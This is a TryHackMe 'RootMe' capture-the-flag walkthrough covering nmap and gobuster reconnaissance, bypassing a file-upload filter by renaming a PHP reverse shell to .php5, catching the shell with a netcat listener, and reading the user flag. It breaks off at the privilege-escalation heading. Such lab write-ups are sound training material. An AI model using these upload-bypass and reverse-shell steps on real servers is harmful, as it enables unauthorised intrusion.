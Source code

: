# THM RootMe Walkthrough By Tirexv2
![RoomLogo](https://miro.medium.com/max/700/0*4vGBRHcDbSK82n4P.png)

This [Room](https://tryhackme.com/room/rrootme) will help you to practice the usage of `Gobuster` , `Nmap` as tools and `Privilege escalation` , `WebShell` 

## Task 1 Deploy the machine

1- Start Machine

2- Start AttackBox (if you want to use Web GUI) else use OpenVpn

## Task 2 Reconnaissance

1 - We will scan the machine using Nmap 
`nmap -sC -sV Machine IP`

`-sC` refers to Scan using Defaults scripts

`-sV` refers to pull infos of open ports 

![nmap](https://user-images.githubusercontent.com/31727214/212396877-437558c2-1a5f-424f-b2c6-9ca774fbb6bd.PNG)


after this scan you will be able to answer first 3 questions 

```
Scan the machine, how many ports are open? : 2 Ports : 80 & 22

What version of Apache is running? : 2.4.29

What service is running on port 22? : SSH
```

2 - as he said we will use `GoBuster` to discover directories on the web server :

`gobuster dir -u http://10.10.1.130 -w /usr/share/wordlists/dirb/common.txt`

`dir` refers to directory or file for enumeration mode

`-u` refers to URL parameter

`-w` refers path to the wordlist

![image](https://user-images.githubusercontent.com/31727214/212395961-b00f9c07-399d-4af3-a681-12a6830dc910.png)

Now we will be able to answer last Question in this Task 

```
What is the hidden directory? : /panel/
```

## Task 3 Getting a shell

1 - Lets try to browse into the hiden page `http://ip/panel/`

looks like we found something interesting we can upload files so lets try to upload web shell and get a reverse shell to execute commands on the web server

for this step we can use metasploit to generate php reverse shell or we can just take a shell and make some edits so for me i will use [Php reverse shell](php-reverse-shell) from pentestmonkey

but we need to do some edits in the script before uploading on the webserver

![image](https://user-images.githubusercontent.com/31727214/212399261-caeaf4cb-5bd3-4931-ae85-3fd08dcdbd01.png)

```
$ip : Attacker Machine IP
```

but we face an error here because we upoload shell.php file with php extension
![image](https://user-images.githubusercontent.com/31727214/212399901-c3a497df-fbef-4612-9581-91163de18ac3.png)

so let's try to escape this filtre by replacing php with php5 so the new structre of file extension will be like this `shell.php5` instead of `shell.php`

![image](https://user-images.githubusercontent.com/31727214/212400487-4bad41e1-d506-4347-ae15-a867ddc4a216.png)

Now we will execute our shell and start a netcat listener from Attacker Machine 

To start netcat :
`sudo nc -nlvp 9999`

To execute our shell we will use `Curl` command 
`curl hhtp://ip/uploads/shell.php5`

![image](https://user-images.githubusercontent.com/31727214/212401848-6275af69-9ddb-45d0-a634-b790542f7ae7.png)

Our shell executed succefully now we can capture the flag 

As he said we need to search for `user.txt` file so we will use `find` command to execute this search

Command : `find / -type f -name user.txt 2> /dev/null`

We found the Path for `user.txt` so we will use `cat` to print the content of a file

Command : `cat /var/www/user.txt`

![image](https://user-images.githubusercontent.com/31727214/212402497-bcd8d010-6a4e-4e75-bdd7-fa72889ec7ae.png)

## Task 4 Privilege escalation 



